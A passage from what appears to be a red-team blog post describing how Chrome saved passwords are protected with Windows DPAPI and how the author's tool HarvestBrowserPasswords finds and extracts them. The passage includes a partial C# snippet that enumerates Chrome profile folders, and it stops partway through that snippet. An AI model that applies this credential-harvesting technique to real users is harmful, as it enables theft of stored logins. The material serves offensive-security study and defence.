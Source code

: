 ![Image](/assets/img/browser-credentials/login_data_sqlite.PNG)

The DPAPI was intended to be extremely simple to use, and consists of only two functions: **CryptProtectData()** and **CryptUnprotectData()** which symetrically encrypt/decrypt data "blobs" (arbitrary arrays of bytes) using implicit crypto keys tied to a specific user or system. The upside to DPAPI encrypted credentials is that I don't need to know any of the target user's passwords or keys in order to decrypt their creds if I am already executing code in that user's context. The downside is that some extra work needs to be done in order to decrypt credentials if I don't have code execution in the target user's context. [This awesome blog post](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) shows Mimikatz "/unprotect"-ing DPAPI encrypted creds using a target user's known password.

### Finding and Extracting Encrypted Logins

By following a few simple steps, I can begin gathering saved credentials for decryption. I'll use snippets of code from HarvestBrowserPasswords below to demonstrate each step.

#### 1. Search the current user's `%LocalAppData%\Google\Chrome` directory for profiles
```cs
public static List<string> FindChromeProfiles()
{
    string localAppData = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
    string chromeDirectory = localAppData + @"\Google\Chrome\User Data";

    List<string> profileDirectories = new List<string>();

    if (Directory.Exists(chromeDirectory))
    {
        //Add default profile location once existence of chrome directory is confirmed
        profileDirectories.Add(chromeDirectory + "\\Default");
        foreach (string directory in Directory.GetDirectories(chromeDirectory))
        {
            if (directory.Contains("Profile "))
            {
                profileDirectories.Add(directory);
```